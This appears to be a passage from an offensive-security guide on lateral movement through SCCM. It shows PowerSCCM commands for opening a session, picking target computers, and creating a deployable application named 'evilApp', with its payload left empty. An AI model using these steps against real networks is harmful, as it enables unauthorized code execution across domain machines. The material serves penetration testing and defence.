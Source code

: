 ![](<./assets/SCCM_Lateral_Movement_Execution_Step3_Trigger_Deployment.png>)

![](./assets/SCCM_Lateral_Movement_Execution_Step3_Capture_Authentication.png)


=== PowerSCCM

With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

```powershell
# Create a SCCM Session via WMI with the Site Code
Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode  -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 ""

```